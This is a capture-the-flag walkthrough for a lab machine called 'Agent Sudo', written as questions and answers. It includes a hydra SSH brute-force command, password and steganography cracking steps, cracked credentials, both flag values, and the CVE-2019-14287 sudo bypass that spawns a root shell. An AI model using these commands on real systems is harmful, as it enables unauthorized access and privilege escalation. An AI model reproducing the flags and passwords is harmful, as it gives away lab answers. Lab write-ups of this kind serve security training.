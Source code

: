 # AGENT SUDO

## BASIC INFO

```
export IP=10.10.58.24


```
## ENUMERATE

> - **How many open ports?**
>> 3

> - **How you redirect yourself to a secret page?**
>> user-agent

Stated on the web page

> - **What is the agent name?**
>> chris

Brute-forcing the agent code reveals the name. Refer to this [code](user_agent.py) for more details.

## HASH CRACKING AND BRUTE-FORCE

> - **FTP password**
>> crystal

Using `hydra -l chris -P /usr/share/wordlists/rockyou.txt ssh://$IP`

> - **Zip file password**
>> alien

binwalk found zip file in `cutie.png`. Using zip2john and john to crack the password.

> - **Steg password**
>> Area51

In ToAgentR.txt found a base64 encoded string which translate to `Area51`

> - **Who is the other agent (in full name)?**
>> james

After extract with `steghide extract -sf cute-alien.jpg` found username `james` and password `hackerrules!`.

> - **SSH password**
>> hackerrules!

## CAPTURE THE USER FLAG

> - **What is the user flag?**
>> b03d975e8c92a7c04146cfa7a5a313c7

> - **What is the incident of the photo called?**
>> Roswell alien autopsy

Reverse image search

## PRIVILEGE ESCALATION

> - **CVE number for the escalation**
>> CVE-2019-14287

sudo vulnerabilities allows user to bypass password.

> - **What is the root flag?**
>> b53a02f55b57d4439e3341834d70c062

Running the command `sudo -u#-1 /bin/bash` spawn us a root shell.

> - **(Bonus) Who is Agent R?**
>> DesKel